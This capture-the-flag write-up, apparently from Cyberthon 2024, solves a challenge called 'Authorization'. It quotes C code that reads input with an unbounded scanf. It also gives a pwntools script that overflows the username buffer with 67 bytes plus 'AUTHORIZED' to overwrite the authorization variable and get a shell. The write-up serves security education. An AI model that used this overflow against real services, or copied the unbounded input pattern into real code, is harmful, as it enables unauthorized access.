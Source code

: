 # Authorization

## Problem Statement

Prove that you're authorized, and i'll give you a shell on my system.

Interact with the service at: `chals.t.cyberthon24.ctf.sg:33011`

Concept(s) Required:

- [Overwriting variables with Buffer Overflow](https://www.youtube.com/watch?v=T03idxny9jE)

Note: once you get a shell, the flag.txt can be found in the user's home directory.

## Solution

Let's take a look at the source code

```c
    char authorization[13] = "UNAUTHORIZED";
    char username[64];

    ...

    scanf("%s", username);

    printf("Greetings, %s. Your are %s.\n", username, authorization);

    if (!strcmp(authorization, "AUTHORIZED"))
    {
        puts("[ ACCESS GRANTED ]");
        shell();
    }
    else
    {
        puts("Intruder alert!");
    }
```

The vulnerability lies in the use of `scanf()` to read user input into the username buffer without specifying a maximum
length. This can lead to a buffer overflow, allowing us to overwrite the authorization variable and change its value
to "AUTHORIZED", thereby gaining access to the shell.

Essentially, we construct a username input that's long enough to overflow the username buffer and overwrite the authorization variable.

After some trial and error, you will see that you have to send 67 bytes of data before overriding the authorization variable

```python
from pwn import *

r = remote("chals.t.cyberthon24.ctf.sg", 33011)
r.sendlineafter(b'=> ', b'A' * 67 + b'AUTHORIZED')
r.sendline(b'cat ~/flag.txt')

r.interactive()
```
